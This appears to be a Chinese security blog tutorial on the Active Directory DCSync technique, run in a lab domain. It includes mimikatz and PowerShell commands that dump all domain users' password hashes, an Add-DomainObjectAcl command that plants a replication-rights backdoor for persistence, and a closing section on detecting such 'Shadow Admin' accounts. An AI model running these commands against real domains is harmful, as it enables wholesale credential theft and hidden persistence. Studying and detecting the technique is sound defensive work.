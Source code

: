 # 域渗透-DCsync


## 0x1 概念

在域中，不同的DC之间，每隔15分钟会进行一次域数据的同步。当一个DC（辅助DC）想从其他DC（主DC）获取数据时，辅助DC会向主DC发起一个GetNCChanges请求。请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync就是利用的这个原理，通过Directory Replication Service(DRS)服务的GetNCChanges接口向域控发起数据同步请求。

在DCSync功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。2015年8月，新版的mimikatz增加了DCSync的功能，该功能可以模仿一个域控DC，从真实的域控中请求数据，如用户的哈希。该功能最大的特点就是可以实现不登录到域控而获取域控上的数据。

## 0x2 利用条件

所需权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改(非必要)

默认拥有上述权限的用户如下

```txt
Administrators组内的用户
Domain Admins组内的用户
Enterprise Admins组内的用户
域控制器的计算机账户(Administrator和system)
```

**DCSync 攻击的对象如果是只读域控制器 (RODC)，则会失效，因为 RODC 是不能参与复制同步数据到其他 DC 的**

## 0x3 利用方法

#### 1.使用mimikatz

切换到debug权限

```shell
log
privilege::debug
```

导出域内所有用户的hash：

```shell
lsadump::dcsync /domain:xr.com /all /csv
```

导出域内administrator帐户的hash：

```shell
lsadump::dcsync /domain:xr.com /user:administrator /csv
```

下面开始实验使用Domain Admins内用户zs，登录到域内主机上，使用mimikatz来读取hash

<img src="https://s1.vika.cn/space/2023/08/17/5203bcc5cdf941a2aa8c2842fef53d29" style="zoom:;" />

<img src="https://s1.vika.cn/space/2023/08/17/32ecae7cc96e4a49adaf116c6336e68d" alt="image-20230817144449104" style="zoom:;" />

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```shell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/ec8199572b8e442d9279a188291409c8" alt="image-20230817151206787" style="zoom:;" />

导出域内administrator帐户的hash：

```shell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/049f9632d4014e7db1e0beab8205d431" alt="image-20230817151237335" style="zoom:;" />

## 0x4 DCSync在域内维持权限

**利用条件：**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

**利用原理：**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限

**利用方法：**

添加ACE的命令：

```shell
Add-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

删除ACE的命令：

```shell
Remove-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

开始实验，我们在一台域内主机登录liu普通域用户，使用mimikatz导出hash，失败

<img src="https://s1.vika.cn/space/2023/08/17/36a4c0ee63204da0880453706214153a" alt="image-20230817230857468" />

在另一台域内主机登录Domain Admins内用户zs，执行ps1，成功添加

<img src="https://s1.vika.cn/space/2023/08/17/cd8e8efefbcc43f0b954dabdb605a6cc" alt="image-20230817231012951" />

回到liu这台主机，再次导出hash，成功导出数据

<img src="https://s1.vika.cn/space/2023/08/17/6819fc1160904fb58a26449085f974b7" alt="image-20230817231041072" />

## 0x5 检测DCSync后门

具有高权限但不在高权限组的用户被称之为Shadow Admin，例如0x03中的域用户test1，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**利用条件：**

- Powershell v3.0
- 域内普通用户权限

<img src="https://s1.vika.cn/space/2023/08/17/78e80b418811489f92fda29885b4a118" alt="image-20230817232541260" style="zoom:;" />

要求Powershell v3.0，增加一台win10来执行Execute-ACLight2.bat,登录域内普通用户ls

<img src="https://s1.vika.cn/space/2023/08/17/b29b783c8641417fb1d0a6c75bf9c82d" alt="image-20230817234713769" style="zoom:;" />

生成result文件夹查看结果，排查到liu用户为Shadow Admin

<img src="https://s1.vika.cn/space/2023/08/17/fc78e9bc6ea0418694510649d32eef7b" alt="image-20230817234857099" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/2d099117/  

